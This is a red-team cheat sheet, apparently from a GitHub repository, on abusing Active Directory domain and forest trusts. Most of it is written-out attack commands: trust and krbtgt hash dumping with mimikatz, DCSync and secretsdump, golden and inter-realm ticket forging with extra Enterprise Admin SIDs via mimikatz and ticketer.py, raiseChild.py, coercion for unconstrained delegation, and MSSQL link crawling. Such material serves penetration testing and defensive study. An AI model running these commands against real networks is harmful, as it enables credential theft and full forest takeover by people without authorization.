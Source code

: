 # Trusts

## Enumeration
- `nltest.exe /trusted_domains`
- `([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()`
- `Get-DomainTrust -Domain <domain>`
- `Get-DomainTrustMapping`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> trusts`
- `sharphound.exe -c trusts -d <domain>`
  - `MATCH p=(:Domain)-[:TrustedBy]->(:Domain) RETURN p`
- Get Domains SID
  - `Get-DomainSID -Domain <domain> Get-DomainSID -Domain <target_domain>` 
  - `lookupsid.py -domain-sids <domain>/<user>:<password>'@<dc> 0 lookupsid.py -domain-sids <domain>/<user>:<password>'@<target_dc> 0`

## Child->Parent
- Trust Key >>> PassTheTicket
  - `mimikatz lsadump::trust /patch`
    - `mimikatz kerberos::golden /user:Administrator /domain:<domain> /sid:<domain_sid> /aes256:<trust_key_aes256> /sids:<target_domain_sid>-519 /service:krbtgt /target:<target_domain> /ptt`
  - `secretsdump.py -just-dc-user '<parent_domain>$'   <domain>/<user>:<password>@<dc_ip>`
    - `ticketer.py -nthash <trust_key> -domain-sid <child_sid> -domain <child_domain> -extra-sid <parent_sid>-519 -spn krbtgt/<parent_domain> trustfakeuser`

- Golden Ticket >>> PassTheTicket
  - `mimikatz lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt`
    - `mimikatz kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID-519> /ptt`
  - `raiseChild.py <child_domain>/<user>:<password>`
  - `ticketer.py -nthash <child_krbtgt_hash> -domain-sid <child_sid> -domain <child_domain> -extra-sid <parent_sid>-519 goldenuser`

- Unconstrained delegation
  - coerce parent_dc on child_dc domain >>> unconstrained delegation

## Parent->Child
- same as Child to parent

## External Trust 
- DomainA <--> DomainB trust (B trust A, A trust B)
  - from A to B FOREST_TRANSITIVE
    - password reuse >>> lat move (creds/pth/...)
    - Foreign group and users >>> ACL
      - Users with foreign Domain Group Membership
        - `MATCH p=(n:User)-[:MemberOf]->(m:Group) WHERE n.domain="<domain>" AND m.domain<>n.domain RETURN p`
      - Group with foreign Domain Group Membership
        - `MATCH p=(n:Group {domain:"<domain>"})-[:MemberOf]->(m:Group) WHERE m.domain<>n.domain AND n.name<>m.name RETURN p`
    - SID History on B >>> PassTheTicket
      - Golden ticket
        - `mimikatz lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt`
          - `mimikatz kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID>-<GROUP_SID_SUP_1000> /ptt`
        - `ticketer.py -nthash <krbtgt> -domain-sid <domain_a> -domain <domain_a> -extra-sid <domain_b_sid>-<group_sid sup 1000> fakeuser`
      - Trust ticket
        - `secretsdump.py -just-dc-user '<domainB>' <domainA>/<user>:'<password>'@<dc_a>`
          - `ticketer.py -nthash <trust_hash> -domain-sid <sid_a> -domain <domain_a> -extra-sid <domain_b_sid>-<group_sid sup 1000> -spn krbtgt/<domain_a> fakeuser`
    - ADCS abuse >>> ADCS
  - from A to B is FOREST_TRANSITIVE|TREAT_AS_EXTERNAL
      - Unconstrained delegation
        - coerce dc_b on dc_a >>> unconstrained delegation
        
- DomainA <-- DomainB trust (B trust A / A access B)
  - Same as double trust, but no unconstrained delegation as B can't connect to A

- DomainA --> DomainB trust (A trust B / B access A)
  - password reuse >>> lat move (creds/pth/...)

## Mssql links >>> MSSQL
- MSSQL trusted links doesn't care of trust link
  - `Get-SQLServerLinkCrawl -username <user> -password <pass> -Verbose -Instance <sql_instance>`
  - `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`
    - trustlink
      - sp_linkedservers
        - use_link